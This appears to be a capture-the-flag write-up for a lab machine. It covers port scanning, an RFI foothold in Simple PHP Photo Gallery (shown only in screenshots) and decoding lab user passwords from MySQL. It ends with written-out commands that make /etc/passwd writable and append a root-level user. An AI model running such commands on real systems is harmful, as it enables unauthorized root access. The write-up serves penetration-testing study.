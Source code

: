# Network Enumeration

```bash
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
111/tcp   open   rpcbind
139/tcp   open   netbios-ssn
445/tcp   open   microsoft-ds
3306/tcp  open   mysql
33060/tcp open   mysqlx

```

# Port Enumeration

## 80

The webstie shows that's `simple php photo gallery` which verion is v0.8

<img src="../Images/image-20230817112824232.png" alt="image-20230817112824232" style="zoom:80%;" />

Search on google, it shows version 0.7 has LFI and also in github has rfi.

<img src="../Images/image-20230817112855663.png" alt="image-20230817112855663" style="zoom:80%;" />

So try to use RFI.

<img src="../Images/image-20230817112914765.png" alt="image-20230817112914765" style="zoom:80%;" />

Then get rev shell from `simple php photo gallery`.

<img src="../Images/image-20230817112935098.png" alt="image-20230817112935098" style="zoom:80%;" />

# PE

Check the default `www` path to get some config.

<img src="../Images/image-20230817113136901.png" alt="image-20230817113136901" style="zoom:80%;" />

Now we get the MySQL's password. `root:MalapropDoffUtilize1337`

Login to mysql to get more information.

```bash
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| SimplePHPGal       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.03 sec)
mysql> use SimplePHPGal;
use SimplePHPGal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.01 sec)

```

Now we have 3 users password. This is double base64 encode. Now decode that get the user password are

`john:MobilizeHissSeedtime747`

`michael:HockSydneyCertify123`

`serena:OverallCrestLean000`

Check the `/home`, we can just see the michael's home, so try to use Michael's password to login ssh.

<img src="../Images/image-20230817113804617.png" alt="image-20230817113804617" style="zoom:80%;" />

Check the `sudo -l`, but Michael don't have any permissions to running with `sudo`. Now running the `linpeas.sh`.



## System information

<img src="../Images/image-20230817114254200.png" alt="image-20230817114254200" style="zoom:80%;" />

## Active Ports

<img src="../Images/image-20230817114336014.png" alt="image-20230817114336014" style="zoom:80%;" />

## Users

<img src="../Images/image-20230817114346647.png" alt="image-20230817114346647" style="zoom:80%;" />

## Useful information

<img src="../Images/image-20230817114413002.png" alt="image-20230817114413002" style="zoom:80%;" />

## Interesting file owned by everyone.

<img src="../Images/image-20230817114524867.png" alt="image-20230817114524867" style="zoom:80%;" />

Change `/etc/passwd` permission

```bash
[michael@snookums ~]$ ls -al /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
[michael@snookums ~]$ chmod 777 /etc/passwd
[michael@snookums ~]$ openssl passwd aaron
95tsH6n7MVWsM
[michael@snookums ~]$ echo "aaron3:95tsH6n7MVWsM:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Then switch user to `aaron3`, get root permission.

<img src="../Images/image-20230817115326772.png" alt="image-20230817115326772" style="zoom:80%;" />